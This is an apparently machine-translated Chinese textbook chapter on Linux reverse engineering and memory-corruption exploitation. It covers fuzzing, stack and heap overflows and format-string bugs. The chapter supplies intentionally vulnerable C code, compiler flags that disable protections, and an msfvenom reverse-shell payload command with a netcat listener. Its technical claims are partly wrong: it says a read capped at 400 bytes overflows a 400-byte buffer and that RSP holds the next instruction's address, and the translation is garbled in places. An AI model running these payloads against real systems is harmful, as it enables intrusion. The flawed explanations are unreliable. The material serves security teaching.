








# 十一、逆向工程 Linux 应用

我们已经知道，逆向工程是获取可执行程序并获取其源代码或机器级代码的过程，以查看工具是如何构建的，并潜在地利用漏洞。逆向工程环境中的漏洞通常是程序员在开发和安全研究人员发现时处理的软件缺陷。在本章中，我们将介绍如何使用 Linux 应用执行逆向工程。本章将介绍以下主题：

*   模糊 Linux 应用
*   Linux 与汇编
*   Linux 和堆栈缓冲区溢出
*   Linux 和堆缓冲区溢出
*   Linux 中的格式化字符串错误

# 调试器

理解可执行程序行为的常用方法是将其附加到调试器，并在不同位置设置断点，以解释被测软件的代码流。顾名思义，**调试器**是一种软件实用程序或计算机程序，程序员可以使用它来调试自己的程序或软件。它还允许程序员查看正在执行的代码的汇编。调试器能够显示执行代码的确切堆栈。调试器能够显示编写的高级编程语言代码的汇编级等效代码。因此，调试器根据函数调用的执行堆栈、寄存器及其程序变量的地址/值等显示程序的执行流。

让我们来看看本章将要涉及的调试器：

*   Evans Linux 调试器：这是一个本机 Linux 调试器，我们不需要 wine 来运行它；它以`tar.gz`文件的形式提供。下载源代码，解压缩并复制到您的计算机。所需的安装步骤如下所示：

```
$ sudo apt-get install cmake build-essential libboost-dev libqt5xmlpatterns5-dev qtbase5-dev qt5-default libqt5svg5-dev libgraphviz-dev libcapstone-dev
$ git clone --recursive https://github.com/eteran/edb-debugger.git
$ cd edb-debugger
$ mkdir build
$ cd build
$ cmake ..
$ make
$ ./edb
```

将其添加到环境变量 path 或转到安装目录并运行`./edb`以启动调试器。这将为我们提供以下界面：


让我们打开`edb exe/linux`文件：



*   GDB/GNU 调试器：这是一个非常旧的调试器，通常在 Ubuntu 中默认找到。它是一个不错的调试器，但没有很多功能。要运行它，只需键入`gdb`，它的提示符就会打开。默认情况下，它是一个 CLI 工具：



*   另一个好工具是 idea pro，但这是一个商业工具，不是免费的。

# 模糊 Linux 应用

**模糊化**是一种用于发现应用中的错误的技术，当应用遇到未预料到的输入时，这些错误会导致应用崩溃。模糊化通常涉及到使用自动化工具或脚本，这些工具或脚本会向应用发送大字符串，从而导致应用崩溃。模糊化背后的思想是发现可能导致灾难性后果的漏洞或 bug。这些漏洞可能属于以下类别之一：

*   缓冲区溢出漏洞
*   字符串格式漏洞

Fuzzing 是一种将随机生成的代码发送到测试程序的技术，目的是使其崩溃或查看其在不同输入上的行为。Fuzzing 是一种自动方式，用于向正在测试的程序发送不同长度的有效负载，以查看程序在任何时候是否表现出奇怪或意外的行为。如果在模糊化过程中观察到任何异常情况，则会标记导致程序意外行为的有效负载长度。这有助于测试人员进一步评估是否存在利用漏洞的可能性。简单地说，模糊化是检测正在测试的应用中是否存在溢出类型的潜在漏洞的第一步。

一个有效的模糊器生成的半有效输入是**足够有效**，因为它们不会被解析器直接拒绝，但会在程序的更深处产生意外的行为，并且**足够无效**以暴露未正确处理的角落案例。我们可以使用的模糊化工具是**Zzuf**。这是一个非常好的模糊工具，可以用于基于 Linux 的系统。安装步骤如下：

从 GitHub 源代码下载 Zzuf，并使用以下命令手动安装：

```
./configure
make sudo make install
```

然而，在这里，我们将重点关注使用本机 Python 代码执行模糊化。为了理解模糊化是如何实现的，让我们以一个示例 C 代码为例，它接受用户的输入，但不对传递的输入执行必要的检查。

# 起毛作用

让我们用 C 编写的一个基本代码，它需要一个用户输入并在终端上显示它：

```
#include <stdio.h>
#include <unistd.h>

int vuln() {

    char arr[400];
    int return_status;

    printf("What's your name?\n");
    return_status = read(0, arr, 400);

    printf("Hello %s", arr);

    return 0;
}

int main(int argc, char *argv[]) {
    vuln();
    return 0;
}
ssize_t read(int fildes, void *buf, size_t nbytes);
```

下表说明了上述代码块中使用的字段：

| 领域 | 描述 |
| `int fildes` | 读取输入的位置的文件描述符。您可以使用从 open（[中获取的文件描述符 http://codewiki.wikidot.com/c:system-调用：打开](http://codewiki.wikidot.com/c:system-calls:open)系统调用，也可以使用 0、1 或 2 分别引用标准输入、标准输出或标准错误。 |
| `const void *buf` | 存储读取内容的字符数组。 |
| `size_t nbytes` | 截断数据之前要读取的字节数。如果要读取的数据小于*n*字节，则所有数据都保存在缓冲区中。 |
| `return value` | 返回读取的字节数。如果该值为负值，则系统调用返回错误。 |

我们可以看到，这个简单的程序试图从控制台读取（由文件描述符的 0 值指定），无论从控制台窗口读取什么，它都会尝试将其放入本地创建的数组变量`arr`。现在`arr`在该代码中充当缓冲区，最大大小为 400。我们知道 C 中的字符数据类型可以保存 1 个字节，这意味着只要我们的输入是<=400 个字符，代码就可以正常工作，但如果给定的输入超过 400 个字符，我们可能会遇到溢出或分段错误，因为我们将试图保存比缓冲区`arr`可能保存的更多的数据。查看前面的代码，我们可以直接看到超过 400 字节的输入将破坏代码。

假设我们无法访问应用的源代码。然后，为了计算缓冲区的大小，我们有以下三个选项：

*   第一个选项是对其进行逆向工程，以查看应用的助记符或程序集级代码。谁想这么做！
*   许多现代反编译器也为我们提供了与原始应用等效的源代码。对于像我们这样的一个小例子，这将是一个很好的选择，但是如果所讨论的可执行文件是数千行代码，我们可能也希望避免这个选项。
*   第三种也是通常首选的方法是将应用视为一个黑盒，并确定它希望用户指定输入的位置。这些将是我们的注入点，我们将在其中指定不同长度的字符串，以查看程序是否崩溃，如果崩溃，将在何处发生。

让我们编译源代码以生成 C 的目标文件，并将其作为黑盒运行和模糊。

默认情况下，Linux 系统是安全的，并且提供了各种类型的缓冲区溢出保护。因此，在编译源代码时，我们将禁用内置保护，如下所示：

```
gcc -fno-stack-protector -z execstack -o buff buff.c
```

前面的命令将生成以下屏幕截图：


让我们通过管道将`echo`命令的输出传输到目标文件，在一行中运行目标文件。这将使用 Python 和模糊化实现自动化：


我们知道`./buff`是我们的输出文件，可以作为可执行文件执行。让我们假设我们知道该文件的实际源代码，以了解如何使用 Python 模糊该文件。让我们创建一个基本的 Python 模糊脚本：


让我们运行前面的 Python 代码，看看模糊化有什么影响，以及它如何破坏应用，使我们接近崩溃点：


从前面的输出可以看出，应用崩溃的点在 400 到 500 字节之间，这就是实际崩溃的地方。更准确地说，我们可以对`i`使用较小的步长，并使用`step size=10`得出以下结果：


前面的屏幕截图为我们提供了更详细的信息，并告诉我们应用在输入长度介于`411`和`421`之间时崩溃。

# Linux 和汇编代码

在本节中，我们将了解汇编语言。目标是获取一个 C 代码，将其翻译成程序集，然后查看程序集。我们将加载和使用的示例 C 代码如下：


现在让我们从命令行以`./buff`的形式运行此程序，并尝试将此可执行程序附加到 Evans 调试器，如下所示：


现在，我们通过转到**文件****附加**选项，将正在运行的代码附加到从 GUI 启动的 Evans 调试器。我们附上可执行文件如下：


当我们点击**确定**时，目标文件将被附加到调试器，我们将能够看到与其关联的汇编级代码，如图所示：



窗口的右上部分显示被测应用的程序集代码。左上部分表示寄存器及其相应的内容。汇编代码下面的部分显示了当用户在控制台上输入数据时将调用的方法，这是我们的读取系统调用。屏幕底部的部分表示内存转储，其中内存的内容以十六进制和 ASCII 格式显示。让我们看看当我们指定一个小于 400 个字符的值时，应用是如何干净地存在的：


现在，让我们输入一个大于 400 字节的值，看看寄存器会发生什么情况：


当我们传递此输入时，我们达到以下状态：


在前面的屏幕截图中可以看到，我们传递的值被写入寄存器 RSP。对于 64 位体系结构，寄存器 RSP 保存要执行的下一条指令的地址，并且当值从`arr`缓冲区溢出时，一些被写入寄存器 RSP。程序获取 RSP 的内容以转到下一条它要执行的指令，由于它到达`aaaaaaaaaa`，它崩溃了，因为这是一个无效的地址。需要注意的是，如前一屏幕截图所示，`0X6161616161`是`aaaaaaaaaa`的十六进制等价物。

# Linux 中的堆栈缓冲区溢出

大多数漏洞是由于开发人员没有想到的情况而产生的缺陷。最常见的漏洞是堆栈缓冲区溢出。这意味着我们定义了某种缓冲区，其大小不足以满足所需的存储。当输入由最终用户控制时，这是一个更大的问题，因为这意味着它可以被利用。

在软件中，当程序写入程序调用堆栈上的内存地址（我们知道，每个函数都有自己的执行堆栈，或者在执行它的位置被分配一个堆栈内存）超出预期的数据结构（通常是固定长度的缓冲区）时，就会发生堆栈缓冲区溢出或堆栈缓冲区溢出。堆栈缓冲区溢出几乎总是导致堆栈上相邻数据的损坏，在错误触发溢出的情况下，这通常会导致程序崩溃或操作不正确。

让我们假设我们有一个存储单元`a`可以保存两个字节的数据，在这个存储单元`a`旁边我们有另一个存储单元`b`也可以保存两个字节的数据。我们还假设这两个存储单元都放置在彼此相邻的堆栈上。如果给`a`的数据超过两个字节，数据实际上会溢出，并将其写入`b`，这是程序员所不期望的。缓冲区溢出漏洞利用此过程。

指令堆栈指针是指向下一条要执行的指令地址的指针。因此，每当执行任何指令时，IP 的内容都会更新。调用方法并创建该方法的激活记录时，将执行以下步骤：

1.  创建激活记录或堆栈帧。
2.  **当前指令指针****CIP**和**当前环境指针****CEP**（来自调用者）作为返回点保存在堆栈帧上。
3.  CEP 被分配堆栈帧的地址。
4.  CIP 被分配代码段中第一条指令的地址。
5.  从 CIP 中的地址继续执行。

当堆栈已完成其执行，且堆栈中没有更多要执行的指令或命令时，将执行以下步骤：

1.  从堆栈帧的返回点位置检索 CIP 和 CEP 的旧值。
2.  使用 CEP 的值，我们跳回调用方函数。
3.  使用 CIP 的值，我们从最后一条指令恢复处理。

默认情况下，堆栈的外观如下所示：


现在可以看到返回地址位于堆栈的底部，并且它实际上包含旧 CEP 的值。我们称之为堆栈帧指针。在技术术语中，当缓冲区的值被覆盖和溢出时，它会完全填满与堆栈的局部变量空间相关联的所有内存，然后写入堆栈的返回地址部分，并导致缓冲区溢出。当缓冲区上的所有内存空间都被占用时，按照约定，将获取返回点的内容以跳回调用方。但是，由于地址被从用户传递的数据覆盖，这将导致无效的内存位置，从而导致分段错误。

这就是事情变得有趣的地方。应该注意的是，用户传递的数据和堆栈的局部变量实际上是作为寄存器实现的，因此我们将传递的值将存储在堆栈上的某些寄存器中。现在，由于用户传递的任何输入都会写入某些寄存器，并最终写入返回点，如果我们能够将 shell 代码注入位于位置`12345`的寄存器`X`中呢？既然我们能够写入堆栈的返回点，那么如果我们在返回点写入`12345`呢？这将导致控制权转移到位置`12345`，这将反过来导致执行我们的外壳代码。这就是如何利用缓冲区溢出来授予我们受害者机器的外壳。现在我们对缓冲区溢出有了更好的理解，让我们在下一节中看到它的实际应用。

# 利用缓冲区溢出

以下面的代码为例，它容易受到缓冲区溢出的影响。让我们看看如何模糊和利用该漏洞获得 shell 对系统的访问。在前面的部分中，我们研究了如何使用 Evans 调试器。在本节中，我们将了解如何使用`gdb`利用缓冲区溢出。

下面给出了一个用 C 编写的简单代码段，询问用户的姓名。根据终端提供的值，向用户发送问候信息`Hey <username>`：


让我们通过使用以下命令禁用堆栈保护来编译应用：

```
gcc -fno-stack-protector -z execstack -o bufferoverflow bufferoverflow.c 
```

这将创建一个名为`bufferoverflow`的对象文件，可按如下方式运行：


现在，我们的下一步是生成将导致应用中断的有效负载。我们可以使用 Python 进行以下操作：

```
python -c "print 'A'*500" > aaa
```

前面的命令将创建一个包含 500*a*s 的文本文件。让我们将其作为代码的输入，看看它是否会中断：


如前所述，计算机通过*寄存器*管理堆栈。寄存器在内存中充当一个专用的位置，在处理数据时将数据存储在该位置。大多数寄存器临时存储用于处理的值。在 64 位体系结构中，**寄存器堆栈指针**（**RSP**）和**寄存器基指针**（**RBP**）尤为重要。

程序用 RSP 寄存器记住它在堆栈中的位置。RSP 寄存器将向上或向下移动，这取决于任务是从堆栈中添加还是从堆栈中删除。RBP 寄存器用于记住堆栈末尾所在的位置。

通常，RSP 寄存器将指示程序从何处继续执行。这包括跳入函数、跳出函数等等。这就是为什么攻击者的目标是控制 RSP 指令程序执行的位置。

现在，让我们尝试运行与`gdb`相同的代码，以在崩溃发生时找到寄存器 RSP 的值：


可以看出，我们只需发出`run`命令并将其传递到创建的输入文件中，就会导致程序崩溃。让我们尝试了解崩溃时所有寄存器的状态：


信息寄存器显示的两列以十六进制和十进制格式告诉我们寄存器的地址。我们知道这里感兴趣的寄存器是 RSP，因为 RSP 将保存下一条要执行的指令的地址，并且由于它被损坏并且被 A 的字符串重写，所以导致了崩溃。让我们检查一下坠机时 RSP 的内容。让我们也检查一下其他寄存器的内容，看看我们所有的输入字符串`aaaaa`都写在哪里了。我们检查其他寄存器的原因是为了确定可以放置有效负载的寄存器：



从前面的屏幕截图中，我们可以验证输入字符串 aaaa（其十六进制等价物为`0x414141`）是否放置在 RSP 中，从而导致崩溃。有趣的是，我们还看到字符串被放置在寄存器`r9`和`r11`中，这使它们成为我们利用漏洞代码的潜在候选。但在到达之前，我们需要弄清楚在输入 500 个字符的时候，缓冲区 RSP 被覆盖了。如果我们得到该偏移量的确切位置，我们将设计有效负载，在该偏移量处放置跳转指令，并尝试跳转到寄存器`r9`或`r11`，在那里放置外壳代码。为了计算准确的偏移量，我们将在 Metasploit Ruby 模块的帮助下生成一个独特的字符组合：


现在，由于我们将这个唯一生成的字符串放在一个名为`unique`的文件中，让我们重新运行应用，这次将这个`unique`文件内容传递给程序：


现在，此时，寄存器 RSP 的内容是`0x6f41316f`，它是十六进制的。ASCII 等价物为`o1Ao`。

由于寄存器 RSP 的内容是小端格式，我们实际上需要将`0x6f31416f`转换为其 ASCII 等价物。必须注意的是，IBM 的 370 台大型机、大多数基于[RISC](https://search400.techtarget.com/definition/RISC)的计算机和摩托罗拉微处理器都使用大端方法。另一方面，英特尔[处理器](https://whatis.techtarget.com/definition/processor)s（CPU）DEC Alpha 和至少一些在其上运行的程序是 little endian

我们将再次使用 Metasploit Ruby 模块获取该唯一值的偏移量，以找到有效负载的确切位置。在此之后，我们应该放置跳转指令，使 RSP 跳转到我们选择的位置：


因此，我们知道在地址`424`之后写入的任何内容的下八个字节都将写入我们的 rsp 寄存器。让我们试着写下`bbbb`，看看情况是否如此。我们生成的有效载荷如下：`424*a + 4*b + 72*c`。要使用的确切命令如下所示：

```
python -c "print 'A'*424+ 'b'*4 + 'C'*72" > abc
```

现在，我们已经验证了我们可以控制寄存器 RSP，让我们尝试攻击 r9 寄存器，以保存 shell 代码。但在此之前，我们必须知道 r9 寄存器的位置。在下面的屏幕截图中，我们可以看到 r9 寄存器的内存位置为`0x7fffffffded0`，但每次程序重新加载时，该位置都会不断变化：


有两种方法可以解决这个问题。第一种方法是通过在操作系统级别禁用动态地址更改来避免动态地址更改，这可以在下面的屏幕截图中看到。另一种方法是找到具有`jmp r9`命令**的任何指令的地址。**我们可以在程序的整个汇编代码中搜索`jmp r9`，然后将该位置的地址放在寄存器 RSP 中，从而避免动态地址更改。我将把它作为一个练习留给你自己去理解和做。对于本节，让我们通过执行以下命令禁用动态地址加载：


现在，由于我们在一台 Kali 机器上工作，让我们生成一个反向外壳有效载荷，该载荷将放在我们的最终攻击代码中：

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.250.147 LPORT=4444  -e x64/xor ‐b "\x00\x0a\x0d\x20" -f py
```

为了找出被测试底层软件的常见错误特征，最成功的方法是反复试验。我通常要做的是找出常见的坏字符，将所有唯一字符发送到应用，然后使用调试器，检查在寄存器级别更改了哪些字符。那些被改变的可以被编码和避免。

前面的命令将生成以下屏幕截图：



让我们创建一个名为`exp_buf.py`的 Python 文件，并将获得的 shell 代码放在该文件中。必须注意的是，由于我们正在对有效负载进行编码，我们还需要在开始时使用几个字节来解码，因此我们将在开始时指定几个`nop`字符。我们还将在端口`4444`上设置一个 netcat 侦听器，以查看是否从应用中获得一个反向 shell。记住 r9 寄存器的地址；我们也将利用这一点：


前面的 Python 代码通过穿透我们创建的易受攻击的缓冲区溢出代码，打印出获得反向 shell 所需的有效负载。让我们把这个有效载荷输入到一个名为`buf_exp`的文件中，我们将与`edb`一起使用该文件来利用代码。键入以下命令以运行代码：

```
python exp_buf.py > exp_buf
```

现在，让我们在端口 4444 上设置一个 netcat 侦听器，它将侦听反向负载，这将反过来为我们提供 shell：

```
nc -nlvp 4444 
```

现在，使用`gdb`运行应用并尝试利用它，如图所示：


答对 了代码已成功生成一个新的 shell 进程。让我们检查一下我们的 netcat 侦听器获得了什么：


因此可以验证，我们能够使用 Python 和`gdb`成功地创建一个反向 shell。

# Linux 中的堆缓冲区溢出

应该注意，导致堆栈缓冲区溢出的变量、缓冲区或存储的范围仅限于声明它的函数（局部变量），其范围在函数内。因为我们知道函数是在堆栈上执行的，所以该缺陷会导致堆栈缓冲区溢出。

在堆缓冲区溢出的情况下，影响会稍微大一些，因为我们试图利用的变量不是位于堆栈上，而是位于堆上。在同一方法中声明的所有程序变量在堆栈中都有内存。但是，在运行时动态分配内存的变量不能放在堆栈中，而是放在堆中。因此，当程序在运行时通过`malloc`或`calloc`调用为变量分配内存时，它实际上会在堆上为变量分配内存，在堆缓冲区溢出的情况下，会导致该内存溢出或被利用。让我们来看看它是如何工作的：



现在，通过禁用内置保护来编译代码，如图所示。注`-fno-stack-protector`和`-z execstack`是帮助禁用堆栈保护并使其可执行的命令。

```
gcc -fno-stack-protector -z execstack heapBufferOverflow.c -o heapBufferOverflow
```

现在我们已经编译了应用，让我们使用输入类型运行它，这些输入类型将中断并执行代码，如图所示：



前面的屏幕截图给出了堆缓冲区溢出的起点。我们将把它留给读者去发现如何进一步利用它，并从中得到一个相反的外壳。所采用的方法与我们之前使用的方法非常相似

# 字符串格式漏洞

不受控制的格式字符串攻击可用于使程序崩溃或执行有害代码。该问题源于在某些执行格式化的 C 函数（如`printf()`中）中将未经检查的用户输入用作字符串参数。恶意用户可能使用`%s`和`%x`格式令牌等从调用堆栈或内存中的其他位置打印数据。我们还可以使用`%n`格式令牌将任意数据写入任意位置，该令牌命令`printf()`和类似函数将格式化的字节数写入堆栈上存储的地址。

让我们通过以下示例代码进一步了解这一点：



现在，继续编译代码，禁用内置保护，如图所示：

```
 gcc formatString.c -o formatString
```

请注意，打印函数将第一个参数作为格式字符串（`%s`、`%c`、`%d`等）。在前一种情况下，`argv[1]`可以用作格式字符串并打印任何内存位置的内容。前面的代码易受攻击。但是，如果按照所示编写，则该漏洞将不存在：


现在我们已经编译了应用，让我们使用输入类型运行它，这些输入类型将中断并执行以下代码：


让我们用格式字符串漏洞来破解代码，如下所示：


前面的屏幕截图给出了一个起点；同样，我们将留给读者去探索如何进一步利用这一点。建议您尝试我们之前详细讨论过的相同方法。

# 总结

在本章中，我们讨论了 Linux 中的逆向工程。我们还使用 Python 研究了模糊化。我们在 Linux 调试器（`edb`和`gdb`的上下文中研究了汇编语言和助记符。我们详细讨论了堆栈缓冲区溢出，并了解了堆缓冲区溢出和字符串格式漏洞的概念。我强烈建议在这些想法上花费大量时间，并在不同的操作系统版本和易受攻击的应用上探索它们。在本章结束时，您应该对 Linux 环境中的缓冲区溢出漏洞和反转有了相当的了解。

在下一章中，我们将讨论 Windows 环境中的逆向工程和缓冲区溢出漏洞。我们将使用一个真实世界的应用演示利用。

# 问题

1.  我们如何使利用缓冲区溢出漏洞的过程自动化？
2.  我们可以做些什么来避免操作系统强加的高级保护，例如禁用堆栈上的代码执行？
3.  我们如何处理地址随机化？

# 进一步阅读

*   堆栈缓冲区溢出 crossfire:[https://www.doyler.net/security-not-included/crossfire-buffer-overflow-linux-exploit](https://www.doyler.net/security-not-included/crossfire-buffer-overflow-linux-exploit)
*   堆栈缓冲区溢出 crossfire:[https://www.whitelist1.com/2016/11/stack-overflow-8-exploiting-crossfire.html](https://www.whitelist1.com/2016/11/stack-overflow-8-exploiting-crossfire.html)
*   堆缓冲区溢出：[https://www.win.tue.nl/~aeb/linux/hh/hh-11.html](https://www.win.tue.nl/~aeb/linux/hh/hh-11.html)
*   字符串格式漏洞：[https://null-byte.wonderhowto.com/how-to/security-oriented-c-tutorial-0x14-format-string-vulnerability-part-i-buffer-overflows-nasty-little-brother-0167254/](https://null-byte.wonderhowto.com/how-to/security-oriented-c-tutorial-0x14-format-string-vulnerability-part-i-buffer-overflows-nasty-little-brother-0167254/)